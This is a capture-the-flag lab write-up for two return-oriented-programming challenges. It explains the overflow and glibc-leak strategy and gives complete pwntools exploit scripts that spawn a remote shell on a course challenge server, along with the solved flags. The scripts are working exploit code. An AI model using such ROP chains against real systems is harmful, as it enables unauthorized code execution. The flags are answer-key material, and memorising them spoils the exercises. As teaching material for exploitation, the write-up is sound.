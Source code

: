 200/300 achieved


TOOLS
- ROPgadget --binary ./baby_rop --dump | grep "pop rdi"
- ROPgadget --binary ./baby_rop --dump | grep "pop rsi"
- ROPgadget --binary ./baby_rop --dump | grep "pop rdx"

### 🟢 baby rop (50)
Use `readelf -h ./baby_rop` to see that this is a no-PIE binary. On Binja, we see that system is listed as a function. We can directly call system using its address, provided it's already been called so that its .got entry is populated. gets() is called within main which is an opportunity for clobbering the return address to lead to our ROP chain. 

Our ROP chain will consist of a pop rdi, ret gadget, followed by the address of the "/bin/sh" string. The string is already provided in the binary in an existing string - we'll just take the binsh part of it. Combined, these two will place the address of the binsh string into rdi, readying for the syscall. Next, a ret instruction is included to align the stack pointer. Lastly, We place the address of system so that it's called. 

Because ROP and ELF didn't work on my vm due to insufficient memory, I found gadgets using `ROPgadget --binary ./baby_rop --dump | grep "pop rdi"` as an example.

Solver's Script:
```python
from pwn import *
context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"

#e = context.binary = ELF('./baby_rop')
#r = ROP(e)

p = remote("offsec-chalbroker.osiris.cyber.nyu.edu", 1201)
p.recvuntil("abc123): ".encode())
p.sendline("hw3172".encode())

# `pop rdi; ret`: pop top item from stack, store into rdi; then pop off stack again and put into rip
pop_rdi_gadget = 0x40119e # use ROPgadget on the binary, grep "pop rdi"

binsh_str = 0x402026 # take binsh part of the string 'echo like /bin/sh"'
sys_call = 0x401070 # find on Binja
ret = 0x40117e # look on Binja disassembly. find a ret 
# ^ single ret is for stack alignment

payload = b"A"*0x18 + p64(pop_rdi_gadget) + p64(binsh_str) + p64(ret) +  p64(sys_call)
p.recvuntil(b"> ")
p.sendline(payload)

p.interactive()

```

flag{4ll_g4dg3ts_1nclud3d!_11625f09a6c8338d}



### 🟢 Classic ROP (150)

This binary is no-PIE. In main(), they first prompt user for an input specifying the max size of buf. We want to enter something larger than 0x48 bytes so we can overflow the return addr. I chose to enter 1000. 

Strategy is to run main() twice. In the first time, we will overflow buffer to a ROP chain which will leak the address of a glibc function. I chose to leak puts. Then we will take that leaked address and calculate the glibc base address, from which we can calculate the absolute addresses of "/bin/sh" string and system function. In the first ROP chain, we will end the chain by redirecting to main(). In the second run of main(), we will still send in 1000 as the max buffer length. Then, we send over our ROP chain which will put the address of binsh string into rdi, and proceed to call system. Below is the script written to do the above:

Solver's script: 
```python
from pwn import *

context.log_level = "DEBUG"

context.terminal = ["tmux", "splitw", "-f", "-h"]

context.arch = "amd64"

  
  

p = remote("offsec-chalbroker.osiris.cyber.nyu.edu", 1202)

p.recvuntil("abc123): ".encode())

p.sendline("hw3172".encode())

p.recvuntil(b"\n")

  

pop_rdi_gadget_local = 0x4011fe # same as remote cuz binary is no-PIE

binsh_offset_local = 0x1d944a

binsh_offset_remote = 0x1d8678

syscall_offset_local = 0x5af30

syscall_offset_remote = 0x50d70

  
  

p.recvuntil(b"\n")

p.sendline(b"1000") # request 50 bytes (> 48) so we can overflow return addr

  

puts_plt_entry_addr = 0x404018

call_puts = 0x4010a0

call_main = 0x401203

ret = 0x401252

# test: print out the absolute addr of puts using its .plt entry

test = b"A"*0x28 + p64(pop_rdi_gadget_local) + p64(puts_plt_entry_addr) + p64(call_puts) + p64(call_main)

p.sendline(test)

#p.sendline(payload)

  

puts_abs = p.recvuntil(b"\n")

puts_abs = puts_abs[:-1]

puts_abs_num = int.from_bytes(puts_abs, byteorder='little') # little bc .got entries store addr in little endian

puts_offset_local = 0x8ce80

puts_offset_remote = 0x80e50

  

glibc_base = puts_abs_num - puts_offset_remote

binsh_abs = glibc_base + binsh_offset_remote

syscall_abs = glibc_base + syscall_offset_remote

  

# re-enter main from start

p.recvuntil(b"\n")

p.sendline(b"1000")

payload = b"A"*0x28 + p64(pop_rdi_gadget_local) + p64(binsh_abs) + p64(syscall_abs)

p.sendline(payload)

  
  

p.interactive()
```

flag{th4t_w4s_r0pp1ng_b3f0r3_gl1bc_2.34!_16eb91ffa0e7988d}


### EZ Target
